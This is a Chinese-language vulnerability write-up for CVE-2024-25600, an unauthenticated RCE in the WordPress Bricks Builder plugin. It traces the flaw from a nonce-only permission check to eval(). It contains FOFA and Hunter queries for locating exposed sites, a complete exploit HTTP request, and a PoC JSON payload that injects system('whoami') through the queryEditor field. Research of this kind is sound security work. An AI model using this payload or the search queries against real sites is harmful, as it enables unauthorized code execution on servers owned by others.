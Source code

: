 # CVE-2024-25600

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** WordPress Bricks Builder 未授权远程代码执行漏洞



## **0x00 空间搜索引擎相关查询语法**

```python
[FOFA]
body="/wp-content/thems/bricks/"

[鹰图]
web.body="/wp-content/thems/bricks/"
```

## 0x01 **漏洞原理**

该漏洞源于通过`prepare_query_vars_from_settings()`中的 eval 函数执行用户控制的输入，由于权限检查不当，未经身份验证的威胁者可利用该漏洞在受影响的WordPress 网站上执行任意PHP代码。

## 0x02 影响范围

WordPress Brick Builder <=1.9.6

## **0x03 漏洞利用**

查看网页源代码，搜索nonce关键词，对应的值就是我们需要的值

![Untitled](image/Untitled%202.png)

```python
POST /wp-json/bricks/v1/render_element HTTP/2
Host: # URL
Cookie: # Cookie
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "(Not(A:Brand";v="99", "Chromium";v="115", "Microsoft Edge";v="113"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 11.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5814.204 Safari/537.36 Edg/113.0.1544.41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Content-Type: application/x-www-form-urlencoded
Content-Length: 252

{
	"postId":"1",
	"nonce":"xxxxxx",
	"element":{
		"name":"container",
		"settings":{
			"hasLoop":"true",
			"query":{
				"userQueryEditor": true,
				"queryEditor":"system('whoami');throw new Exception();",
				"objectType":"post"
			}
		}
	}
}
```

## **0x04 利用链分析**

`includes/query.php`的`prepare_query_vars_from_settings`函数是漏洞的触发点

![Untitled](image/Untitled%203.png)

接着向下看

![Untitled](image/Untitled%204.png)

继续跟踪，发现该函数被`query.php`文件的`__construct`函数调用

![Untitled](image/Untitled%205.png)

发现如果`$query_instance`为false就会执行`self::prepare_query_vars_from_settings( $this->settings );`该方法。

继续追踪，发现`Query`类被`ajax.php` 

![Untitled](image/Untitled%206.png)

![Untitled](image/Untitled%207.png)

**`stripslashes_deep()`**：这是一个 WordPress 函数，用于移除字符串或数组中的反斜杠。它会递归地移除字符串中的反斜杠，以及数组中所有元素（包括嵌套数组）中的反斜杠。

继续分析

![Untitled](image/Untitled%208.png)

进入该函数，继续分析

![Untitled](image/Untitled%209.png)

`Capabilities::current_user_can_use_builder( $post_id )`，通过传入postId来判断当前用户是否有权限使用页面构建器（builder）。

下面，我们继续分析`render_element()`函数

![Untitled](image/Untitled%2010.png)

发现会从elements变量中获取name的值，并且会通过该name 获取到一个类，并判断这个类是否存在，如果不存在会抛出doesn't exist内容，从而导致RCE失败。

跟踪`Elements::$elements`，

![Untitled](image/Untitled%2011.png)

这个变量中会定义很多name的值

![Untitled](image/Untitled%2012.png)

![Untitled](image/Untitled%2013.png)

继续查找`render_element()`被谁调用了，发现位于`includes/api.php`文件中`render_element()`函数调用了它

![Untitled](image/Untitled%2014.png)

继续分析，发现`rest_api_init_custom_endpoints()`函数，在 WordPress 中注册了很多 REST API 路由

![Untitled](image/Untitled%2015.png)

而该`rest_api_init_custom_endpoints()`函数实际上是Api这个类在初始化后就被执行了

![Untitled](image/Untitled%2016.png)

继续分析

- **`self::API_NAMESPACE`**：这是一个常量或者类属性，表示 REST API 的命名空间。这个命名空间用于标识此路由所属的 API 部分。
- **`'render_element'`**：这是路由的端点 (endpoint)，表示 API 中的具体资源或功能。
- **`self::API_NAMESPACE，render_element`：**代表该路由地址`bricks/v1/bricks/render_element`，
- `methods`： 代表参数指定了该路由支持的 HTTP 请求方法
- **`callback`**：这个参数是一个回调函数或方法，当路由匹配时会被调用。在这里，设置为 **`[ $this, 'render_element' ]`**，表示当路由匹配时会调用当前类 (**`$this`**) 中的 **`render_element`** 方法。
- **`permission_callback`**：这个参数指定了权限检查回调函数，用于检查用户是否有权限执行该请求。在这里，设置为 **`[ $this, 'render_element_permissions_check' ]`**，表示在调用**`render_element`** 方法之前会先调用当前类 (**`$this`**) 中的 **`render_element_permissions_check`** 方法进行权限检查。

我们继续分析`render_element_permissions_check()`函数

![Untitled](image/Untitled%2017.png)

可以看出仅仅只检查了`nonce`随机数的值，而没有检查用户的权限。nonce就是我们用户传进去的`nonce`的值，也就是说是可控的

因此，综上分析之后，我们就可以写出以下poc

```python
{
"postId":"1",
"nonce":"3d6020fb9a",
"element":{
    "name":"container",
    "settings":{
        "hasLoop":"true",
        "query":{
            "useQueryEditor":true,
            "queryEditor":"system('whoami');throw new Exception();", 
            "objectType":"post"
        }
    }
}
}

```

**`PS:`** throw new Exception()是为了抛错回显

**附利用链图**

![Untitled](image/Untitled%2018.png)

## 0x05 总结

整个漏洞的产生原因是因为在定义API端点接口的时候，只对可见的随机数nonce进行了验证而并没有进行权限检查，导致能够传入数据。从而控制动态渲染时$php_query_raw这个变量，最终传入到eval中，导致了代码的执行。